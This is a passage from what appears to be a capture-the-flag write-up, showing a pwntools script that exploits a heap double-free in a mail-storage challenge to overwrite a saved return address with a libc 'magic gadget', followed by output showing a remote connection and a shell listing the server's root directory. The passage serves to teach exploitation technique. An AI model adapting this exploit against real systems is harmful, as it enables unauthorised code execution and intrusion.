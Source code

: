 ```python
    ################

    size = 0x38
    # create a pointer to a chunk so that we can free it twice
    send_mail(0, 16, p64(base_cubbies + 32))
    # Create 3 chunks
    for i in range(1, 4):
        send_mail(i, size, p8(0x60 + i) * 8)

    # Delete cubby 1 then 2
    delete_mail(1)
    delete_mail(2)

    # Delete 1 again
    delete_mail(ARRAY_SIZE // 8)

    # remove the trick with 31
    delete_mail(31)

    # with the loop on shift, 34 is equivalent to 2
    delete_mail(2)

    # Create again cubbies 1 and 2
    log.warn('Storing 0x{0:016x} in the chunk'.format(saved_rip - 0x30-8))
    send_mail(1, size, p64(saved_rip - 0x30 - 8))
    send_mail(2, size, 'd' * 8)

    send_mail(4, size, 'e' * 8)
    delete_mail(0)
    send_mail(0x40, size, 'A'*40 + p64(magic_gadget))
    r.clean()
    r.interactive()
```

And here is the result (note that if an address that we send contains a new line, it will fail):

```bash
$ ./payload.py 
[+] Opening connection to 107.170.17.158 on port 4201: Done
[!] Leaked heap_addr: 0x00007ff0841e5230
[!]  => base_cubbies: 0x00007ff0841e5120
[!]  => cubbies_addr: 0x00007ff0841e5010
[!] Leaked libc_addr: 0x00007ff082a537b8
[!]  => magic_gadget: 0x00007ff0826da7dc
[!] Leaked stack_addr: 0x00007ffe34824ab8
[!]  => &saved_rip:    0x00007ffe34824988
[!] Storing 0x00007ffe34824950 in the chunk
[*] Switching to interactive mode
$ ls
bin
boot
dev
etc
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
```

[strtoull]: http://man7.org/linux/man-pages/man3/strtol.3.html
[grsec]: https://en.wikipedia.org/wiki/Grsecurity
[post]: https://sploitfun.wordpress.com/2015/02/10/understanding-glibc-malloc/
[magicgadget]: {% post_url 2016-03-30-Radare2-of-the-Lost-Magic-Gadget %}
[check]: https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;h=ea97df2cb4b18017bcd0c7278b85b227d6c9f720;hb=HEAD#l3374
[debootstrap]: https://wiki.debian.org/Debootstrap